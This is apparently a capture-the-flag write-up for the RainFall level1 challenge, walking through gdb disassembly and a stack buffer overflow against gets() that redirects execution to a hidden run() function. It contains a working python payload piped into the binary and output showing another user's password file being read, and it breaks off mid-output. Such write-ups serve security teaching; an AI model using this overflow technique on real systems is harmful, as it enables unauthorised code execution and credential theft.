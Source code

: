 _Testing the binary_
```
level1@RainFall:~$ ls
level1
level1@RainFall:~$ ./level1 

level1@RainFall:~$ ./level1 test
```

_Disas throw gdb_
```
level1@RainFall:~$ gdb ./level1 

GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.

(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.

(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini

(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.

```

_We can see some function not used in main, like run or system. If we disas run we see that run use fwrite and system.
So we have 2 function, main and run.
In the main function we see that gets is used. With some research we see gets has un exploit with a [ buffer overflow attack](https://www.fortinet.com/resources/cyberglossary/buffer-overflow)_

_we need to erase the return adress with the run function adress_
``` 
(gdb) info address run
Symbol "run" is at 0x8048444 in a file compiled without debugging.
```
```
  0x08048486 <+6>:     sub    $0x50,%esp
  0x08048489 <+9>:     lea    0x10(%esp),%eax

  (gdb) print 0x50 - 0x10
  $1 = 64
```
```
  (gdb) break *0x08048490
  Breakpoint 1 at 0x8048490

  (gdb) run 
  Starting program: /home/user/level1/level1 

  Breakpoint 1, 0x08048490 in main ()

  (gdb) info frame
  Stack level 0, frame at 0xbffff730:
  eip = 0x8048490 in main; saved eip 0xb7e454d3
  Arglist at 0xbffff728, args: 
  Locals at 0xbffff728, Previous frame's sp is 0xbffff730
  Saved registers:
    ebp at 0xbffff728, eip at 0xbffff72c

  (gdb) x $esp
  0xbffff6d0: 0xbffff6e0
```

_overflow size_
```
  (gdb) print 0xbffff72c - 0xbffff6e0
  $1 = 76
```

_payload creation_
```
print '\x90' * 76 + '\x44\x84\x04\x08'
```
> \x90 * 76 fill 76 octets with NOP operation (no operation)
> \x44\x84\x04\x08 adress of the run function


_so now we can try the buffer overflow with cat to keep the process waiting_
```
(python -c "print '\x90' * 76 + '\x44\x84\x04\x08'"; cat) | ./level1
```
>DONE
```
level1@RainFall:~$ (python -c "print '\x90' * 76 + '\x44\x84\x04\x08'"; cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
^C
Segmentation fault (core dumped)
level1@RainFall:~$ su level2
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No c
```
